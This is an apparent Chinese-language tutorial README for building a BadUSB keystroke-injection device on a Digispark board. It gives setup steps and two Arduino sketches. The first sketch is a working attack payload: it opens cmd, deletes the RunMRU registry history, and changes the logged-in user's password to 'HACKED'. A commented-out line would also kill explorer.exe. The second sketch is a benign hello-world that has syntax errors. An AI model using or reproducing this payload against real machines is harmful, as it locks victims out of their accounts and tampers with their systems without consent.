



## **环境说明**
#### 准备工作
* Windows 10 1909版本（Windows系统）
* BadUSB开发板(硬件)
* USB数据线
* [开发工具(IDE)](https://www.arduino.cc/en/Main/Software)
* [辅助键值工具Automator_2.0.1](https://support.apple.com/zh-cn/HT2488)
* [驱动程序Digistump Drivers](http://www.pudn.com/Download/item/id/3648236.html)
* 程序文件sketch_aug24a
* [工程文件包下载](http://www.pudn.com/Download/item/id/3969657.html)

## **步骤说明**
**1.下载arduino-1.8.9并添加badusb库，打开ArduinoIDE后，点击文件-->首选项，开发板的管理器网址如下：**
```
http://digistump.com/package_digistump_index.json
```


**2. 安装Digistump Drivers驱动，运行DPinst64.exe，默认下一步即可**

**3. 在Arduino中，依次点击工具-->开发板-->开发板管理器，加载完成后，在输入框中输入digispark,然后点击安装（注：需要先将badusb插入）**


**4. 再次点击工具-->开发板 -->Digispark(Default-16.5mhz)**
* 主要程序文件如下：

文件名为sketch_aug24a.ino
```
#include<Keyboard.h>
void setup() {                                //初始化
  Keyboard.begin();                           //开始键盘通讯
  delay(5000);                                //延时5秒
  Keyboard.press(KEY_CAPS_LOCK);              //按下大写键 这里我们最好这样写 不然大多数电脑在中文输入的情况下就会出现问题
  Keyboard.release(KEY_CAPS_LOCK);            //释放大写键
  delay(200);
  Keyboard.press(KEY_LEFT_GUI);               //win键
  delay(200);
  Keyboard.press('r');                        //r键
  delay(200);                                 
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  Keyboard.println("cmd.exe");                //打开命令行窗口
  delay(200);
  Keyboard.println("CMD.EXE /C REG DELETE hkcu\\sOFTWARE\\mICROSOFT\\wINDOWS\\cURRENTvERSION\\eXPLORER\\rUNmru /F&NET USER %USERNAME% HACKED");//修改密码HACKED
  delay(200);
  Keyboard.println("color a");                //更改命令行颜色（绿色）
  delay(200);
  Keyboard.println("echo .............. >> hacked.txt");                                   //向hacked.txt写内容
  delay(200);
  Keyboard.println("echo ## ## ### ###### ## ## ######## ######## >> hacked.txt");         //向hacked.txt写内容
  delay(200);
  Keyboard.println("color 0");                                                             //更改命令行颜色（绿色）
  delay(200);
  Keyboard.println("echo ## ## ## ## ## ## ## ## ## ## ## >> hacked.txt");                 //向hacked.txt写内容
  delay(200);
  Keyboard.println("echo ................. >> hacked.txt");                                //向hacked.txt写内容
  delay(200);
  Keyboard.println("color c");                                                             //更改命令行颜色（红色）
  delay(200);
  Keyboard.println("type hacked.txt");                                                     //将hacked.txt文件内容打印在cmd
  delay(200);
  //Keyboard.println("taskkill /f /im explorer.exe");                                        //删除桌面进程(all)
  //delay(200);
  Keyboard.end();//结束键盘通讯
}
void loop()//循环
{
}
```
文件名为sketch_aug25a.ino
```
#include<Keyboard.h>    //引用键盘通信库
void setup() {
  // put your setup code here, to run once:
  Keyboard.begin();                         //开始键盘通信
  delay(1000);                              //延迟1秒
  Keyboard.press(KEY_CAPS_LOCK);            //开启大写锁定键
  Keyboard.release(KEY_CAPS_LOCK);          //松开大写键
  delay(200);                               //延迟0.2秒
  Keyboard.press(KEY_LEFT_GUI);             //按下win键
  delay(200);                               //延迟0.2秒
  Keyboard.press('r');                      //按下R键
  delay(200);                               //延迟0.2秒
  Keyboard.release(KEY_LEFT_GUI);           //松开win键
  Keyboard.release('r');                    //松开R键
  delay(500);                               //延迟0.5秒
  Keyboard.println("cmd")                   //输入cmd字符并换行
  delay(200);                               //延迟0.2秒
  Keyboard.press(KEY_ENTER);               //回车，打开命令提示符
  Keyboard.release(KEY_ENTER);             //松开回车
  delay(500);                               //延迟0.5秒
  Keyboard.println("echo hello world")      //输入echo hello world并换行
  delay(50);                                //延迟0.05秒
  Keyboard.press(KEY_ENTER);               //回车，打开命令提示符
  Keyboard.release(KEY_ENTER);             //松开回车
  delay(200);                               //延迟0.2秒
  Keyboard.press(KEY_CAPS_LOCK);            //开启大写锁定键
  Keyboard.release(KEY_CAPS_LOCK);          //松开大写键
  Keyboard.end()                            //结束键盘通信
}

void loop() {
  // put your main code here, to run repeatedly:
}
```
Automator_2.0.1是一款键值辅助工具，在设置按键时可以借用此工具

**5. 烧录文件到badUSB中**
* 点击上传按钮，当下面提示插入USB时，将baduse固件插入电脑，烧录完成立马拔下usb，不然烧录的程序会很快执行



**6. 测试**
* 将烧录好的USB插入电脑，查看是否实现代码中的功能

#### 注意事项